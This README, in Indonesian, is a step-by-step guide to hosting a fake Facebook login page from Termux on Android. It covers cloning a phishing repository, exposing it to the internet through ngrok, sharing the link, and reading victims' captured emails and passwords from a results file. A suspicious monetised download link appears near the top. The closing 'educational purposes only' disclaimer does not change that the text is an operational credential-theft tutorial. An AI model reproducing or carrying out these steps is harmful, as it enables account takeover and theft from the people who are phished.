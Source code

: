 ## Membuat Phishing Facebook Sederhana Menggunakan Termux di Android

   ```bash
   pkg update && pkg upgrade
   pkg install git
   git clone https://github.com/sandhemongss/simple-fb-phising.git
   cd simple-fb-phising
   pkg install nodejs
   npm start
   
   ./ngrok http 5000
   ```
   
## Langkah-langkah lengkap

__Install Termux__ :
Download dan install Termux di Playstore atau F-droid.

Jika ingin menggunakan Termux seperti yang saya gunakan [Download Disini.](https://moneyblink.com/xplljU7Mx7)

Buka Termux dan update package `pkg update && pkg upgrade`.

__Install Paket yang Dibutuhkan:__

```bash
pkg install nodejs
```
```bash
pkg install git
```

__Selanjutnya ikuti langkah-langkah berikut :__
```bash
git clone https://github.com/sandhemongss/simple-fb-phising.git
```
```bash
cd simple-fb-phising
```
```bash
npm start
```

Lalu buka Browser/Chrome dan ketik URL `http://localhost:5000` jika semua langkah di atas benar seharusnya halaman login palsu Facebook sudah muncul di server lokal kita. Selanjutnya tinggal bagaimana server lokal kita bisa di akses secara online oleh orang lain, disini saya contohkan menggunakan Ngrok.

__Install Ngrok :__
- Kembali ke Termux lagi dan buka Sesi baru di Termux.

```bash
pkg update && pkg upgrade
```
```bash
pkg install wget
```
```bash 
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-arm.zip
```

```bash
unzip ngrok-stable-linux-arm.zip
```

__Autentikasi Ngrok:__
- Setelah Ngrok terinstall, kamu perlu menghubungkan akun Ngrok kamu dengan menjalankan token autentikasi `./ngrok authtoken <YOUR_AUTH_TOKEN>`. Kamu bisa mendapatkan token dari [dashboard Ngrok](https://ngrok.com/) setelah mendaftar.

- Jika ada masalah saat menjalankan Ngrok, coba install Ngrok di direktori root Termux. Jalankan perintah `cd` lalu install ulang Ngrok.

- Saya anggap Ngrok sudah berhasil di install, jika sudah buka Termux lagi dan jalankan perintah `./ngrok http 5000`. Ngrok akan menampilkan URL publik yang bisa diakses secara online, misalnya `https://6ehhdj3773u3ujrn.ngrok.io` Salin URL ini lalu share ENJOYY.

- Jika ada yang login melalui link yang kamu bagikan, Email dan Password akan muncul di dalam file `result.txt` yang berada di dalam folder chace.

__Melihat hasil login yang Terekam:__
- Untuk melihat hasil login (email dan password) pastikan kamu berada di dalam direktori `simple-fb-phising`.
```bash 
cd
```
```bash
cd simple-fb-phising
```
```bash
pkg install vim
```
```bash
vim chace/result.txt
```
`:q!` Keluar dari program Vim.


## WARNING
***This tool is only for educational purposes. Unauthorized use of this tool for malicious intent or illegal activities is prohibited. We do not take responsibility for any misuse.***

